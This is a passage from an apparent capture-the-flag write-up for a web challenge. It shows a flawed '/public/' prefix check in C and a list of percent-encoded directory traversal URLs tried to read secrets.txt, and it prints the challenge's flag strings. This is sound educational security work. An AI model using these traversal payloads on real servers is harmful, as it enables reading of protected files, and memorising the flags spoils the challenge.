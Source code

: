```shell
osu{but_my_blue_check}
```

## Finding Flag 1

Realizing that the we missed the first flag we go back to the source code and try and find out some information on it. 

```c
// check if request is for file in /public/ directory
// we don't want users accessing /secrets.txt!
if (strncmp("/public/", url, strlen("/public/")) == 0) {
    public = 1;
}
```

This code has a comment that tells us there is a secret directory, not normally accessible, but we can try and see if there is a flag there.

Trying to go to the address 'https://thritter.ctf-league.osusec.org/secrets.txt' the site tells us:

```text
You do not have access to that page 
```

The code itself checks for if the request comes from the public directory so a directory traversal attack should work.

Here are a few ways attempted for the attack: 

```text
https://thritter.ctf-league.osusec.org/public/../../secrets.txt
https://thritter.ctf-league.osusec.org/public/../secrets.txt
https://thritter.ctf-league.osusec.org/public/..%2fsecrets.txt
http://thritter.ctf-league.osusec.org/public/%2e%2e/secrets.txt 
```

What ended up working is:

```text
http://thritter.ctf-league.osusec.org/public/..%2fsecrets.txt
```

But here are some others that worked as well:

```text
http://thritter.ctf-league.osusec.org/public/%2f%2fsecrets.txt
http://thritter.ctf-league.osusec.org/public/%2e%2e%2f/secrets.txt
```

> for reference this was done on firefox

And the directory traversal attack worked, and we got the flag.

### Flag 1

```shell
osu{h4ck_n_sl4sh}
```
## Finding Flag 3
